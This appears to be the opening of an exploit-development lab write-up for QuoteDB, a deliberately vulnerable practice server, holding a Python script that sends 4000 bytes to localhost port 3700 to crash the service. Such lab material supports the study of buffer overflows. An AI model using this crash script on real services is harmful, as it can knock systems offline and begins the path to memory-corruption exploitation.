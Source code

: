 #  QuoteDB

Downloaded from: https://github.com/bmdyy/quote_db/

## Initial Crash

```py
import struct
import socket


TARGET_IP = "127.0.0.1"
TARGET_PORT = 3700
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 4000  # change me

payload = b"1"*CRASH_LEN

with socket.create_connection(target) as sock:
    sent = sock.send(payload)
    resp = sock.recv(512)
    print(resp)
sock.close()
```
